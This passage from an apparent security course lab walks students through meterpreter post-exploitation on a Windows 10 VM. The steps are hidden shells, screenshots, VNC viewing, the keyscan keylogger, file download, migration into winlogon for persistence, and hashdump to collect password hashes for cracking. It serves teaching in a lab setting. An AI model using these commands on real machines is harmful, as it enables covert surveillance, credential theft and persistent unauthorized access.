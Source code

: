     The `-c` option “channelizes” the cmd.exe, which means that meterpreter can continue interacting with it. Notice the message that “Channel 1 was created.”

    Interact with cmd.exe by typing: `channel -i 1`. Use the `dir`, `cd`, and `cd ..` commands to browse around the file system. Type `exit` to return to meterpreter.
    
21.	Since opening a command prompt is such a common action, you can simply type `shell` to open a hidden command prompt. Type `exit` to return to meterpreter.

22.	Type `screenshot` to capture a screenshot of the current GUI. A jpeg file should be saved to /root on your Kali machine. You can view the image (outside of meterpreter) by typing `cd; eog [image name]`.

23.	View the Windows GUI. Type `run vnc`. Wait a minute for the TightVNC client to open. Use TightVNC to view the Windows GUI

24.	Type `keyscan_start`. From the Windows 10 machine, open Notepad.exe and type some words. Back in meterpreter, type `keyscan_dump`. You should see the text you typed in Notepad. To stop the keylogger, type `keyscan_stop`.

25.	Download a file. Type `ls` to see a listing of files in the current directory. Use Notepad to create a text document on the Desktop of the Windows 10 machine. Use the `cd` command within Meterpreter to browse to the desktop. Type `download [filename]` to download the text document you just created to the Kali VM. The file should be saved to the Kali VM at /root.

26.	Annoy the user. Background the meterpreter session by typing, `background`. Then type:

        use post/multi/manage/play_youtube

    Type `show options`. Get the session number for your meterpreter session by typing, `sessions -l` (that’s a lowercase “L”). Note the ID number of your meterpreter session. Type, `set session [ID]`, where [ID] is the session number you just identified. Type `set vid IAISUDbjXj0`. Type `run`.

    On Windows, you can close the launched window by typing, `control + w`.

    To interact with your meterpreter session again, type `sessions -i [ID]` where “ID” is the number of your meterpreter session identified above.

27.	You can migrate meterpreter from the current exploited process to another, more permanent process that is at less risk of being closed down. In this example, you can migrate from the exploited Icecast process to a more permanent process so that you are not at risk of losing your access to the system if Icecast is terminated.

    Type `ps -S icecast` (note the capital ‘S’) to search for processes with the name of “icecast.” Note the process ID. Next, type `getpid` to get the process that meterpreter is running off of. It should be the same process ID as Icecast.

    Type `ps` to see a list of running processes. Type `ps -S winlogon` to find the process ID for “winlogon.exe,” which is part of the Windows login system. Note that it also has “System” authority. Type `migrate [PID for winlogon.exe]`. Type `getpid` again to verify that you are now running off of the Winlogon process. Now your connection to the Windows 10 VM will persist until it is rebooted or powered off.

    Finally, on your Windows VM,  close the Icecast window. Your meterpreter session should still be running.
    
28.	Now that you are running off of a system process, you can now obtain the password hashes for the machine by typing `hashdump`. 
	These hashes can be readily cracked using a password cracker like Hashcat or John the Ripper (covered in the password cracking lab). 
	For now, we’ll use Google to crack the password hash for user `labuser`.
